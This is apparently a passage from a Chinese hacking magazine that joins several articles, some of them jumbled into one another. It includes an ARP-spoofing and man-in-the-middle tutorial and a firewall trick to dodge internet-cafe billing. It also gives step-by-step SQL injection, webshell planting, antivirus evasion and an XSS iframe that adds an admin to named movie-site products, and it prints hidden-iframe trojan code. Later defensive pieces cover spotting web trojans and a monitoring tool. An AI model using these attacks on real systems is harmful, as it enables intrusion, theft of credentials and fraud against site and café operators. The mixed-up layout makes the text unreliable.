
（要知道一个 ARP 数据包中不仅有目的地的 IP 地址，同时也包含自己的 IP 地址和 MAC 地址，这样回复方才能正确找到发送方并在自己的缓存表中添加发送方的记录。）所以说一个攻击者完全可以直接发送一个请求到被攻击的计算机上，而无需被攻击者广播时才进行攻击。这使 ARP 欺骗更加主动和灵活！


图 7 请求数据包更新 ARP 缓存信息

在前面所有的叙述情况下，也许 A 不会发现自己不是在和 C 通信（这取决于 ARP 欺骗者的手段），但是 C 一定会发现自己无法与 A 通信，这也就暴露了这种 ARP 欺骗的弱点了。前面提到的方法通常被利用在使网络中某两台甚至更多台计算机无法通信上，高级的 ARP 欺骗会使攻击者获得更多，而受害者甚至无法察觉！

这里对这种高级 ARP 欺骗利用做个简单的介绍。这种方法被称为中间人攻击（Man In The Middle），同样使用前面的例子，欺骗方仍然为 B，来看欺骗步骤：

- 1. 第 1 步：B 发送一个数据包告诉 A，C 的 IP 地址是 192.168.0.3，而 MAC 地址是 BB-BB-BB-BB-BB-BB；
- 2. 第 2 步：B 发送一个数据包告诉 C，A 的 IP 地址是 192.168.0.1，而 MAC 地址是 BB-BB-BB-BB-BB-BB；
- 3. 第 3 步：B 在本地做一个包处理、转发的动作。

以上三步就完成了一个中间人的模型，如图 8。


图 8 中间人攻击示意图

这时候如果 A 要和 C 通信（或者逆向），A 会直接使用 BB-BB-BB-BB-BB-BB 来发送数据包，因为缓存表中已经存在了 C 的 IP-MAC 记录。

数据包发送到了 B 上，由于采用了包转发，数据包经过处理后会被发送到 C 上，而来自 C 的回复同样重复相同的过程。所有 A 和 C 发送的数据包都会流经 B，B 可以对这些数据包作任何处理，当然 B 也可以知道这些数据包中的信息了，即使数据包被加了密还存在解密的可能。这时候就存在了两种攻击：

- 1. B 静静监视着 A 与 C 发送的数据包，等待有敏感信息发送的时候将敏感信息截获以利用；
- 2. B 在 A 或 C 发送的数据包中加入特定的数据，比如一条指令，使接收方执行这条指令，让他做攻击者想做的事。当然你也可以让他关机！

而由于使用了包转发，A 和 C 几乎察觉不到数据传送路径中间已经有一个第三者了！这种攻击的危害很大，在远程攻击中也经常被用到。要注意的是使用 ARP 欺骗具有一定的危险性，尤其是在网吧这种对“掉线”十分敏感的场所来说更要慎用。

说了这么多，还是给一个工具吧！我们只使用它让网络中的某台客户机无法访问 Internet，原理就是欺骗目标，告诉它网关的 IP 是攻击者也就是我们的 IP。工具是 arpspoof.exe，很小巧的一个工具。一般使用 ARP 攻击工具都需要安装 WinPcap 驱动，而这个程序自带了驱动，而且安装界面是命令行下的，这给我们带来了很大的福音，尤其是在入侵中。首先使用 arpspoof /i 安装程序运行所需要的驱动，如图 9。

首先我们使用 arpspoof /l 查看本机网卡的信息，如图 10。

# 图 9 安装驱动程序

# 图 10 获得本机网卡信息

为的是得到网卡的编号，后面欺骗的时候要用到。如果有多个网卡，这里会显示多个网卡信息，而网卡只有一个的，从第一个网卡开始编号依次是 0、1、2……，我这里就是 0 了。获得编号后就可以着手进行 ARP 欺骗了。

其中 0 是网卡编号，后面是网卡的名称，下面依次是本机 IP 地址和网卡地址。

# 图 11 arpspoof 的帮助信息

这里攻击者 IP 是 192.168.56.8，网关 IP 为 192.168.56.9，受害人的 IP 是 192.168.56.7。首先看 arpspoof 的帮助，如图 11。

其中 IP1 是被欺骗人的 IP 地址，IP2 是欺骗到哪个 IP，NetAdp 就是网卡编号了，Mode 是欺骗类型。我们只使用其中的 IP1 <--> IP2，即告诉 IP1，IP2 的 MAC 地址是攻击者的。我在攻击者的 CMD 中运行 arpspoof 192.168.56.7 192.168.56.9 0，如图 12。

# 图 12 ARP 欺骗开始

从中我们可以看到 3 台主机的真实 MAC 地址，这时候在 192.168.56.7 上查看 ARP 缓存信息，得到结果如图 13。

# 图 13 被欺骗主机的 ARP 缓存表信息

从图中我们可以发现 192.168.56.8 和 192.168.56.9 的 MAC 地址是一样的，而对比图 12 我们可以发现这个 MAC 地址是前者的，即攻击者的！这时候 192.168.56.7 发送给网关的任何数据都会发送到攻击者那，攻击者不做包转发的话，受害的家伙是无法访问 Internet 的。当然，你还可以使局域网中的任何一台电脑无法访问另外一台电脑。请谨慎使用 arpspoof 这个工具，稍有不慎就可能造成网络阻塞。这时候你可以使用 arpspoof 的 /reset 参数恢复被攻击者的 IP 和 MAC 的对应关系，使用完后可以使用 /u 参数卸载驱动程序。

192.168.56.7 的 ARP 缓存表中显示 192.168.56.8 与 192.168.56.9 的 MAC 地址相同。

## 2、端口与网吧安全

网吧通常服务端控制客户端，不遵守规则（协议）服务端与客户端之间无法通信，而封闭了入口（端口）服务端的指令也是无法到达客户端的。这也是网上流行的使用防火墙破解网吧管理软件的方法：使用防火墙拦截管理软件使用的端口，造成服务端与客户端无法通信，从而达到免费上网的目的。我们要获得它们通信的端口，仍然可使用前面使用的 netstat 命令，仍然使用同样的参数。从图 6 以及 PubwinClient.exe 的 PID，我们很容易地知道 Pubwin EP 的客户端使用的端口是 TCP 端口 18040 和 UDP 端口 18050，我们只要禁用这两个端口就可以了。

在控制面板中打开 Windows XP 自带的防火墙，在“常规”选项卡中选择“启用”同时勾选“不允许例外”，如图 14。

这时候转到“例外”选项卡，点击“添加端口”，名称随便写，端口号写 18040，协议选择 TCP，如图 15。

# 图 14 设置 Windows XP 防火墙

然后确定就可以了。用同样的方法添加它的另外一个 UDP 端口 18050，设置完成后确定退出。这时候任何访问这两个端口的数据都会被防火墙屏蔽掉，包括 Pubwin EP 的服务端，呵呵！不过需要注意的是，Pubwin EP 的服务端可以监视客户端，要谨慎行事。

# 图 15 添加 Pubwin EP 客户端端口

除了客户端和服务端需要通信外，客户机与客户机之间也是需要通信的，比如文件共享或者局域网游戏。就比如文件共享，需要开放 139、445 等端口，这些端口已被证明为危险端口，因为从开放这些端口的服务中可以远程获得很多操作系统的敏感信息——操作系统类型、共享信息、系统服务以及系统账户列表，许多扫描器获得这些信息大多数是通过 139 等端口。很多时候给用户带来方便的某种设置往往存在安全隐患，当然这也取决于管理员的安全意识了。关于这部分的知识这里不多说了，因为是在网吧的环境中，因此还是要把重点突出网吧管理软件存在的缺陷和漏洞利用。

## 三、写在最后

一款产品是否安全有时候不仅仅取决于本身，尤其是类似网吧管理软件这样具有网络功能的产品来说，网络上的种种因素也是决定其安全性是否脆弱的要素。即使产品本身很安全了，由于某个协议有漏洞而导致了 C/S 分离，这也是软件厂商不愿意看到的。所以说安全是一个整体，软件厂商和管理员都不应该把目光只放在眼前的事物上，只有二者合作才会产生完整的网络体系。欢迎对本文有想法的朋友和我交流，同时如果文章有什么纰漏或有不同见解，请指教！

> [文章中涉及到的工具 arpspoof.exe 以及源代码在光盘中有收录]

**编辑点评**：之所以被称作网吧，自然提供种种网络服务了。网吧之网规模虽小，毕竟也算一个网络，网吧虽然是游戏的天堂，它更离不开的是网络。本文没有把重点放在软件本身的漏洞上，而是从网络元素——协议和端口分析网吧存在的安全问题。网吧要有工作站，要有服务器，要有管理软件，网吧又与网络密不可分，正如文中所讲的，只有将这些元素综合起来考虑整体安全才是真正的安全。而这也提醒了入侵者们在确定一个目标后，不一定最开始就要对它进行攻击，我们可以攻击和目标有关的一些系统，从而间接拿到权限，而这种方法似乎在网络上也越来越流行了。

## 春节免费看电影

新年到了，人真多，一大帮朋友聚到一起，电脑就只有一台，谁都想玩！最后大家提议，看片吧，边吃边看，共同娱乐……火速全网搜索免费在线收看影视的网站，速度快的片源差，是没有收费的清晰啊！找一家大型的收费电影站，大过节的就是安慰劳慰我们辛苦的技工（济公！？）吧！当然，首先还是要让我们先秀一下多年来积累的本事喽……

## 影院系统漏洞特辑

花非花[L.S.T]

从本文中你可以学到：

- 1、了解和利用电影系统常见漏洞
- 2、通过本地测试来突破采用相同程序建站的网站

## 一、电影系统常见漏洞之一：暴库漏洞

与网站上的东西联系最密切的要算是数据库了，暴库自然是非常不错的选择。现在让我们来看看金梅电影系统 V5.0 商业版（金梅在线影院第三版也存在这样的漏洞，其他版本的不知道，到时候大家自行测试吧！）的漏洞吧，出问题的文件是 articleconn.asp，它的功能是连接数据库，代码如下：

```asp
dim conn
dim connstr
dim db
db="data/aliang02.asp"
Set conn = Server.CreateObject("ADODB.Connection")
connstr="Provider=Microsoft.Jet.OLEDB.4.0;Data Source=" & Server.MapPath(""&db&"")
conn.Open connstr
```

大家注意到没有？没有容错代码耶……那么，大家应该都想到了吧，直接暴库！在一些大站中，一般情况下都将电影系统拿来作为子站，放在二级目录 movie 目录下，那么我们可以很简单地随便打开个电影的介绍，然后就暴。如图 1：

那要是遇到了电影系统直接作为主站而放在一级目录下怎么办呢？很简单，依然找二级目录，主要是找 admin 目录下的 login.asp 文件来暴，找来暴的文件必须可以连接 articleconn.asp 文件，如图 2：

来访问一下这个数据库文件，看看是否能够直接被下载，如图 3：

很遗憾，已经做了防下载处理啦！看来直接下载后研究数据库的方法行不通了，不过以后遇到能暴库的电影系统就试着下载一下吧，成功了就可以好好研究小水库啦！

其实很多电影系统都存在这个毛病，包括下面的恩雨在线影视系统 V1.0，而且基本都是 articleconn.asp 文件出的毛病。现在的程序都是抄来抄去的，有一问题，大家一起扛……真有“兄弟精神”……

## 二、常见电影系统漏洞之二：注入漏洞

还是以金梅系统（金梅在线影院第三版也一样）为例吧，来看看 re.asp 文件代码中的第 9—10 行：

```sql
set rs=server.createobject("adodb.recordset")
sql="select review, title, reviewcount from learning where articleid="&request("id")
```

很明显而清晰地表明，第 10 行的意思是利用 request 方法获取从客户端传来的数据，并将此数据赋给 articleid 参与 SQL 查询语句，一个明显的注入漏洞就这么产生啦！

这么明显的注入估计谁都会搞吧？用手工或者工具都行。不过，这里用手工要方便得多。因为 re.asp 里面不含 order by 语句，所以我们可以利用 order by 来进行判断。

http://localhost/re.asp?id=84 order by 3 的时候返回正常。  
http://localhost/re.asp?id=84 order by 4 的时候就出错，也就是说在这里的查询语句中用了三个字段。

看一下源码是不是这样的：

```sql
sql="select review, title, reviewcount from learning where articleid="&request("id")
```

用了 review、title、reviewcount 三个字段来参与查询。

现在提交：  
http://localhost/re.asp?id=84%20and%201=2%20union%20select%201,2,3%20from%20fdg85675fd  
（fdg85675fd 是存放管理员信息的字段，如图 4 所示。）

好，现在再来提交：  
http://localhost/re.asp?id=84%20and%201=2%20union%20select%20pwd,id,name%20from%20fdg85675fd  
图 5 所示：

注意看图 4 和图 5 中圈的位置有什么变化？原来图 4 中的 1 的位置变成了图 5 中一个 MD5 加密后的散列，也就是管理员密码；图 4 中 2 的位置变成了图 5 中一个数字 7，也就是管理员的 ID；图 4 中的 3 的位置在图 5 中变成 admin 了，这个就不用我多说了吧？

拿上面通过注入而得到的数据去和数据库中的数据对照一下，看是否有错？如图 6。

# 图 6

再拿 MD5 的散列去 http://www.xmd5.org 进行解密操作，这里解出来的默认密码是 admin。当然，如果你获得的 MD5 散列无法破解，还是自己老老实实地用耐心来猜密码吧……

拿着管理员用户名和密码到后台 admin/login.asp 登录一下，原本后台是有上传文件的地方的，不过这套系统把上传的改乱了，和那个第三版一样，存在能上传的文件。随便上传个图片后缀的马上木马，再利用备份恢复一下就行了，搞过动网的都知道，这里就不再多说了，大家可以参考《黑手》以前的文章。

咱们就来针对这套系统，既然不能上传文件，而数据库有防下载保护（真要命），所以“插小马提大马”的思路是行不通的。不过很幸运的是，这套系统存在可执行 SQL 查询语句的功能，那么只要把 nodown 表去掉，就可以插小马、提交大马了（感谢 Rabbitsafe 在《黑手》2006 年第 6 期提供的思路）。不过，由于 Rabbitsafe 大哥对 SQL 删除 nodown 表的过程没有介绍清楚，我这里就班门弄斧一番，希望不要介意……

首先进入后台管理的“系统管理”/“数据管理”，如图 7 所示：

# 图 7

# 图 8

# 图 9

# 图 10

# 图 11

# 图 12

然后连接类型那里，选择 OLE DB（视使用的数据源而定），并在数据库位置上填上数据库的地址 ../data/aliang02.asp，提交后等待连接成功，如图 8：

接着在 SQL 那里输入 drop table nodown，单击执行，返回错误，如图 9：

虽然返回错误，但是 drop table nodown 确实已经删除掉了，不信就到数据库看一下吧，如图 10：

再访问 http://localhost/data/aliang02.asp，返回和图 3 差不多的结果（仅仅是错误行的区别），还是没有闭合的“%>”。按照 Rabbitsafe 大哥的办法行不通了，看来得自己想办法解决了。问题的关键就在于如何闭合这个“%>”。

我把原来完整的数据库覆盖了一份，再继续测试，想了一下，然后理出了一条思路：

nodown 的内容是“<% loop %”，利用 drop table nodown 删除了 nodown 表，当然也把“<% loop %”从数据库中删除了。虽然删除了，但是仍然存在一个没有闭合的“%>”，那么我们可以先执行 DELETE FROM nodown WHERE notdown='<% loop %'，把“<% loop %”从 nodown 表中删除，然后再执行一条 SQL 语句把“%>”加到数据库中，让它去闭合数据库中的“<%”。

思路清晰了，现在就来实现吧！在实现之前，我又想了一下，可以把两个语句其实用一条语句来执行，那就是 UPDATE nodown SET notdown='%>'，如图 11：

语句执行成功了，再来访问 http://localhost/data/aliang02.asp，哈……可爱的乱码终于出来了。如图 12 所示：

现在可以在数据库中插入马了，那我们就插入到公告中吧，如图 13：

插马完成后再来看一下数据库有啥变化……（如图 14）啊，好熟悉的画面啊，看到图 14 中出现的错误“类型不匹配：'execute'”，基本上插马已经成功一半了，接下来可以提交大马了。

这里注意一下：我们在某些系统提交大马时最好用 cer 作为文件后缀，这样就基本不会被杀毒软件查杀。如图 15：

## 三、常见影院系统漏洞之三：XSS 漏洞

一般情况下，影院系统存在前台跨站的地方基本就是评论页面，而能跨到后台的地方，大多数是错误报告页面。仍然先以金梅电影系统 V5.0 商业版程序简单讲一下通过评论页面跨站。

在存在跨站漏洞的评论页面中先进行发表，如图 16。

“个人网页”“评论标题”和“评论内容”这三个地方均存在 XSS 漏洞。看了一下源代码，这三个地方允许的 maxlength 最小值是 100（评论标题），这样构造一个挂马语句也绰绰有余了。不过，要跨就在“评论标题”和“个人网页”中跨，不要在“评论内容”中跨，因为在“评论内容”那块会把挂马语句显示出来，这样容易被发现，而其他两个地方，即使跨了站，也不显示语句出来。

总是以金梅来介绍漏洞，估计大家都看烦了吧，那现在就换换口味，拿恩雨在线影视系统 V1.0 来测试。如图 17、18，这个系统的评论跨站存在于“个人网页”和“评论标题”这两个地方。

再来看一下影片错误报告页面，随便找个影片，在影片介绍下面一般有个影片错误报告，打开它，如图 19：

输入跨站代码后接着点击“开始报告”按钮，发送完毕咱们到后台去看看。进入后台后进入“电影管理”/“影片评论”，打开刚发送的报告，出现画面如图 20。

跨站成功了！而且跨站语句被解析之后并没有在错误原因中显示出来。原来我写的语句是“管理员，这个地方不能播放啊 <script>alert('晕倒了！')</script>”，现在显示的只有“管理员，这个地方不能播放啊”，如图 21 所示：

这样对我们来说是非常有利的，那么现在我们可以按照以前刺猬大哥发表的文章中的思路，做一下跨站提权。我们到后台加个管理员，抓包，下面是添加新的超级管理员后抓到的包：

```http
POST /admin/saveuser1.asp HTTP/1.1
.........
Referer: http://localhost/admin/adminuser.asp

username=huahua&password=123456&password2=123456&flag=1&Submit=%BF%AA%CA%BC%BC%ED%BD%BC%D3
```

将新建立的超级用户 huahua 删除，然后提交 http://localhost/admin/saveuser1.asp?username=huahua&password=123456&password2=123456...&flag=1，再看看是否有 huahua 这个管理员出现（当然也可以改成其他的名字，只需要修改 username 字段），如图 22 所示：

可以添加管理员了，那现在我们就可以组织一下跨站提权语句了。

```html
<iframe src=http://localhost/admin/saveuser1.asp?username=花花&password=123456&password2=123456&flag=1 width=0 height=0></iframe>
```

在代码前面添加像“不能看啊，坏了啊”之类的话，再到报告错误的地方发出去（为了便于区别，就把 username 改成中文的花花，大家跨站的时候，一定要记得把 localhost 改成你搞的站的域名啦），如图 23：


如果管理员打开一下影视评论，那么我们的跨站就成功了……我点了一下影视评论的链接，再看看管理员设置那边，如图 24 所示：


呵呵，看到没有，多了一个管理员“花花”！当然，金梅那边也可以这么搞，有兴趣的自行测试啦！最后，祝大家新年快乐，春节愉快，身体健康，万事如意！

编辑点评：明白了，终于看明白了……原来花兄是在自己的本地服务器上测试的，呵呵……大家也可以通过网络下载更多的网页源码来进行学习，找出其中的关键之处！在模仿和摘抄风气很盛的当今网络，通过研究一种程序的漏洞也许可以涉及到 N 多的程序哦！当然，过年了嘛！大家找洞抓鸡来打牙祭的热情是可以理解的，记得给偶也留几只，好给朋友拜年去……

## 反黑精英系列之入侵防御(二)

编者按：感谢上期 New4 给我们带来的一些防御捆绑木马的知识，那只是与木马相关的一部分而已，本期的网页木马防御知识还真是雪中送炭啊，作为全世界上网人数最多的国家，网络安全更应该是重中之重，虽然说井水不犯河水，但当有烈马来冲击的时候，正当防卫还是要挣扎一下啊……下面就来看看 New4 带来的 4 个方法，让你进入安全互联网时代，Let GO……

New4 [D.T]

从本文中你可以学到：

- 1、如何识别所浏览的网页是否存在木马
- 2、如何正确进行 IE 设置而尽量避免中马

### 二、防网页木马入侵

### 1、识别利用隐藏框架调用 htm

利用隐藏框架链接到网页木马的方法，其实就是利用 HTML 网页语言，制作一个肉眼无法看到的框架内容，在后台隐藏打开网页木马地址，从而执行了恶意代码（漏洞利用代码）。

我们简单分析一下这段常用的网页挂马代码吧，懂 HTML 语言都应该清楚的。

```html
<iframe src=http://www.xxxx.com/muma.htm width=0 height=0></iframe>
```

以上代码其实就是一个宽和高都为 0 的框，大家当然是在页面浏览时看不出来啦！利用这种方法可以达到后台隐藏打开含有恶意代码的网页（即网页木马）→ 种植后门 → 远程控制进行信息窃取，或者进行磁盘文件操作等一系列动作……

对于防范，我们可以利用“网页木马防护器”这样一款软件。比如：我们想访问的网站为“http://www.darkteam.cn”，首先在软件查看页面输入框中输入相关地址，然后单击“查看”按钮即可对指定页面进行检查（如图 1）。


通过检查可以看出，我们在访问的网站页面应该是正常的！那么有问题的网站页面提示是什么呢？我们找到一个有问题的网站，也在软件查看页面输入框中输入相关地址后单击“查看”进行检查（如图 2）。

从图 2 的检查提示中显示出问题网页预计可能出现的原因，不过这款软件的判断标准就是 `<iframe src=http:// width=0 height=0></iframe>`，符合就会提示有不可见窗体，这也算是个不错的辅助 BUG 吧！如果将 `<iframe src=http://www.xxxx.com/muma.htm width=1 height=1></iframe>` 代码改一下其中的宽和高就检查不到了（如图 3）。


软件是死的，关键时刻还是要靠自己……至于软件问题我就不想多说了，因为也不是我编写的，有能力的可以报告给作者叫他更新或者自己编写一个程序，接下来我们继续用这款软件进行人工判断。

我们自行判断代码所要看的关键字是“`<iframe src=http:// /任何地址（或 /任何地址） width=0 height=0></iframe>`”，width=0 到 10 之间，height=0 到 10 之间，还要判断一定要在 `<iframe>` 和 `</iframe>` 之间才有效。

代码可以在软件的“网页源代码”标签框中看到，一般在网页的底端 `</html>` 之前。对于代码太多而不好看的时候，可以使用复制全部代码到任何一款文本编辑器中进行查看，如“记事本”。然后用查找功能搜索关键字“`<iframe`”，找到后对相关代码进行判断是否属于恶意代码！

### 2、识别利用重定向调用其他的 htm、js

这类调用很难检查，不过使用率到现在还不是很高。先用“网页木马防护器”检查主页，然后查看是否有如下代码（如图 4）：

```html
<script language=Javascript src=http://任意文件.js 或 任意文件.js></script>
```

这类检查难就难在这个调用 JS 的代码是正常的，不正常的恶意代码是在 JS 里面而不是主页中，我们只有把这个 JS 下载下来检查（可以使用下载工具，如迅雷，批量下载来检查）。JS 文件中恶意代码的代码特征和 HTM 主页特征基本一样，代码如下：

```javascript
document.write("<iframe src=http://任何地址(或/任何地址) width=0 height=0></iframe>");
```

width=0 到 10 之间，height=0 到 10 之间，还要判断一定要在 `<iframe>` 和 `</iframe>` 之间才有效，下面是比较典型的一个网页木马的恶意代码。

MS06-014 网页木马的恶意代码（网页木马代码远远不止这些，其实还有很多，当然，使用高版本的 IE 及及时安装补丁是可以避免的！）：

```html
<html>
<script language="VBScript"></script>
<head>
<title>Oh, my god!</title> 提示给浏览者的信息，顶部标题栏显示。
</head><body>
<center>You DO it!</center> 显示的文字信息
</body></html>
```

从上面代码我们可以看出，网页基本是 HTML 静态页面，不过也不排除 ASP 版的网页木马。之前我们介绍的两种方法是防御链接网页木马的方法，也就是通常所说的“挂马”，是很多小黑客经常使用的方法。但是如果是本身就利用漏洞的恶意代码呢？我们当然也是有方法的……

### 3、防御网页木马我只用 IE

这里用常用的浏览器 IE6.0 版本来介绍方法：

- **禁用脚本**：打开 IE 的 Internet 选项 --> 安全 --> 自定义级别，往下翻找到脚本 --> Java 小程序，禁用即可（如图 5）。

> Officer Say：今天终于等到了将要逝去的 2006 年的雪，宿舍里一不知死活的小子穿着裤衩就冲了出去，敢情孩子没有见过下雪！终于挣扎着出了被窝站在操场上，“看红装素裹，分外妖娆”。不禁回想起了初中时候大家一起玩雪的情景，那些只是回忆了……当发生一些以前发生过的事情的时候我们总会不自觉地就回想以前，比如小编一听到 JAY 的《暗号》，就会想起初中开运动会的情景，那是最令人怀念的季节。也许现在的我还不够成熟，也许真正当我坐在 Office 中的时候，就不会想这么多了吧！但是不管长到多大，回忆总是带着感伤的美好，也许充实现现在可以暂时忘掉过去吧！让我们来看本期 Office 都为大家准备了什么。

## 简单实现数字出版加密

阿诺

当然也可以禁用 VBScript，脚本项目里面有几个选项全部选择禁用即可，最后单击一下“重置”按钮进行确认。

另外也可以直接把安全级别设置成“高”就好了，但是禁用了脚本会有很多意想不到的麻烦，因为绝大多数网站可能会用到脚本功能的，如美化或者动画效果等。

- **禁用 iframe 隐藏框架调用文件**：方法基本和上面禁用脚本是一样的（图 6），当然也可以直接把安全级别设成“高”。

### 4、IE 漏洞修补及意见

禁用脚本会导致在浏览部分网站时出现页面错误等许多问题，所以我是不推荐的啦！微软对于网页木马利用的 IE 漏洞都会发布相应的补丁，我们只有及时补全以减小中招的可能！当然也可以使用非 IE 内核的浏览器，如 Mozilla Firefox 火狐浏览器（如图 7）、Opera 浏览器（如图 8）等。不管用什么浏览器，及时更新软件并做好软件缺陷的补丁安装是很必要的！

编辑点评：自从大多数网站为了实现快捷方便的即时管理及注重交互功能后，不再使用最初的 HTML 静态页面，转而使用 ASP 等更具智能化的网页程序。然而随之而来利用交互程序发展出来的网页木马，通过漏洞进行入侵已经越来越泛滥！虽然网页木马发展到现在已经有很多种类，但是我们只要掌握一些方法，还是可以将中招几率大大降低的！（本文所涉及到的工具“网页木马防护器”在本期光盘中有提供）

从本文中你可以学到：

- 1、使用 FilePacker 和 WinRAR 打包文件的方法
- 2、防止自解压格式文件被 WinRAR 文件打开的方法

本人是从事数字出版物工作的，领导派任务说是将单位的纸质出版物提供电子版给网民下载，但有个问题就是不能有版权问题，即不能被随意反编或复制。而开始决定采用的是 PDF，而网上反编 PDF 的软件太多了，安全性不佳。后面采用了 DJVU 作为电子书的最终格式，但是问题是如果被知道是这种格式的文件，那么使用它的阅读器就能打印和拷贝。这显然是个问题！

### 一、打包实现防复制

现在我们要实现的就是通过编译让用户在不知道文件格式的情况下直接调用阅读器打开电子书即可。首先使用的软件是 FilePacker，启动程序，根据向导，依次点击下一步，指定一个工程名称，指定要加载的文件夹，事先将需要打包的阅读器和 DJVU 文件都放在同一目录上，这里我们为保密将 DJVU 的后缀改为 DV，在如图 1 的界面时，点击左边的 DVIEW32.EXE（此为阅读器），右方出现所选择命令，双击命令行下方空白，在输入框中打入 `DVIEW32.exe 8.DV`。


再点击下一步，如图 2。


这里可进行多项设置，建议选择“当执行文件停止自动删除垃圾文件”，如果不选择这项可能让电子书文件作为临时文件被保存。再点下一步，如图 3。

点击右边的“变量”，选择 `*Tempdir*`，再指定一个输出的位置。点下一步，点击“创建”，一个完美的含阅读器的电子书包即建立完毕。这里有两点需要说明：如果直接生成的文件没有注册，会在生成文件后有一个倒计时的显示；另外一点就是这样打包后的文件可能会遇到兼容性问题，如碰到内存只读等。

另一方面，先把需要打包的文件用 WinRAR 制作成自解压包。这里使用示例文件 DVIEW32.EXE 和 8.DV，其中 8.DV 是数据文件，DVIEW32 是阅读器执行文件，再使用 WinRAR 打开该自解压包，点击工具栏中的“注释”，写入如下语句，如图 4。

```text
TempMode=你希望继续执行吗?
Setup=dview32.exe 8.dv
Silent=1
Overwrite=1
```

以上命令必须每行独立为一行，通过回车确定。经测试通过后，为了防止被识别出是 RAR 的 EXE 文件，下面需要使用 WINHEX 和 OLLYDBG 对这个文件作一些修改。首先使用 WINHEX 载入被编译后的 EXE，查找 `RAR!`，看到如图 5 所示。将其中的 61 改为 60，存盘退出。使用 OllyDbg 打开刚才改过的 EXE，使用右键，查找输入 52，连续按 `CTRL + 1` 三次，看到 52、61、72……的地方，如图 6 所示。


用鼠标点 61，按空格将最后的 61 改为 60，点“汇编”，关闭该窗口。再点右键 → 复制到可执行文件 → 选择修改，全部复制。此时会弹出一个新窗口，在新窗口中点右键 → 复制到可执行文件。这就是最后的结果。经测试这样修改过的 EXE 文件 RAR 不会识别，即使用右键也不会有选项：用 WinRAR 打开；如强行使用 RAR 打开则会压缩格式损坏报错，终于达到了我们的目的，即可以让网友自己下载观看，又不会被反编或复制！友情提示：WINHEX 的使用较简单，而 OllyDbg 属于专业软件，在下载后执行时要选择中文版，否则操作起来一旦改错代码则原文件会损坏，这时不仅 RAR 打不开，就是原有自解压功能都损坏，所以在用 WINHEX 存盘的时候要另存为新文件比较稳妥！


[文章中涉及到的工具 FilePacker、WinHex、OllyDbg 在光盘中有收录]

> **编辑点评：**使用 WinRAR 打包多个文件实现一定功能的方法由来已久，这大多是用在入侵后的后门安装上，比如安装 Radmin 就比较方便了。使用这种方法加密电子出版物还是第一次看到，但是我想这个方法在这里也是治标不治本，如果使用资源提取工具比如 Resource Hacker，也许可以将电子书提取出来。文章中值得借鉴的是自解压格式文件的安装参数的使用和防止被 WinRAR 打开的方法。

### 二、改进打包文件

经过研究发现其实打包利用的是 WinRAR 原理，我们依原……

## 系统安全卫士

### ——System Safety Monitor

布衣

从本文中你可以学到：

- 如何利用 System Safety Monitor 做安全防范

当用户在遭遇黑客攻击以后，第一时间就会想到通过杀毒软件进行杀毒。杀毒软件作为最常见的一种网络安全软件，已经得到大多数用户的信赖。可是最近澳大利亚计算机紧急响应中心的调查报告显示，知名品牌的杀毒软件对新型计算机病毒的查杀率只有 20%，也从一个侧面反映出杀毒软件的不足之处。毕竟任何杀毒软件对任何病毒的查杀都是建立在拥有该病毒的特征码的基础上的，所以在病毒的检测上是被动的。即便是现在已经加入了更多的监控功能，往往也很难在第一时间对黑客的攻击做出反应。为了更好地保护自己的系统安全，我们可以通过一些安全辅助软件来协助杀毒软件的工作，而 System Safety Monitor（以下简称 SSM）就是其中非常优秀的一款。SSM 是一款对系统进行全方位监测的防火墙工具，它不同于传统意义上的网络、病毒防火墙，不需要任何的病毒特征码。主要是针对操作系统内部的存取管理，因此与任何网络、病毒防火墙都是不冲突的。并且目前为止，该软件仍是免费的。


### 一、SSM 的安装和设置

首先从网上下载最新版本的 SSM，接着安装运行它，双击系统栏中的 SSM 图标调出 SSM 的控制窗口。虽然 SSM 是一款多国语言版软件，但首先还是需要将默认的英文修改为中文。选择“Options”标签中“General”选项，接着在“Language”选项中选择“Chinese Simplified”选项，然后点击“Apply options”按钮即可。另外在“杀毒软件”选项中可以设置系统安装的杀毒软件路径，这样就可以让 SSM 和杀毒软件进行有效的配合。

除此以外，SSM 的操作界面还包括“进程监控器”、“规则”、“模块”等标签。通过“进程监控器”标签，我们可以查看到当前系统中所有的进程内容，包括被 Rootkit 隐藏的进程也可以显示出来。在进程列表中选择需要查看的进程后，点击鼠标右键中的“进程属性”命令，在弹出的进程属性窗口就可以详细列出该进程下所有的模块，包括进行了线程插入的模块，如图 1。

我们知道网络防火墙在保护系统安全时，主要是依据了用户所设置的规则，其实 SSM 也拥有强大的规则内容。点击“规则”标签，在“程序”窗口中点击鼠标右键中的“添加文件规则”命令，接着从弹出的窗口选择需要的应用程序，在窗口下方根据需要在日志、系统控制、代码注入/DLL 注入、进程控制、保护等内容中进行设置，如图 2。

最后点击“应用设定”按钮就可以让新添加的规则生效。用户除了可以对应用程序进行设置外，还可以对库文件、驱动、注册表等文件进行规则设置。用户想要成功使用规则，需要将“选项”标签“程序”中的“启动程序规则之后，依照阻止规则关闭相应的进程”和“创建阻止规则时终止相应的运行中的进程”选项选中，如图 3。

下面我们再来看看“模块”标签中的内容，其中包括“INI 文件”、“开始菜单”、“服务”、“窗口过滤”和“分层服务提供商”等多项内容，这些内容用于详细记录相关内容的变化情况。在其中每个选项的右上角都有一个“启动该模块”的选项，推荐用户将每个项目中的该选项都选择，以便程序更好地监控系统的相关变化，如图 4。


### 二、阻止恶意程序

SSM 通过不同的窗口标题和颜色来区分不同的系统操作行为。不管我们是直接执行应用程序，还是运行其他文件来启动关联程序，SSM 都会弹出一个名为“程序启动”的提示窗口来告知用户有可执行文件请求运行，并且询问用户是否同意运行。


这样就在文件运行的第一时间阻止文件的运行，可以有效地防范那些更改文件关联的木马或病毒。

我们可以根据自己的需要点击“允许”或“阻止”按钮来操作，另外如果可以确认该文件的合法性，也可以选择“创建执行此操作的永久性规则”选项，这样以后就不会再弹出该文件的提示窗口了。如果用户无法确认该文件的合法性，可以点击文件后面的“定位”按钮来查看文件的安装目录和属性，也可以点击“详情”按钮来查看文件的路径和信息。

### 三、注册表监控

注册表中存放了系统的软硬件设置数据，于是各种恶意程序也是不会放过它的。现在很多杀毒软件都包括注册表监控的功能，但是它们的监控功能都非常的简单，往往只能对注册表的启动项进行监控，而很难对注册表进行全方位的监控。

如果有程序尝试对系统的注册表进行修改的话，SSM 也会弹出一个名为“注册表修改”的提示窗口。我们同样可以通过“定位”按钮来了解该程序的相关知识，除此以外通过“详情”按钮还可以了解到该程序对注册表进行的修改内容。如果可以确定这是正常的系统活动的话，可以通过点击“允许”按钮通过该操作。

### 四、防止线程插入

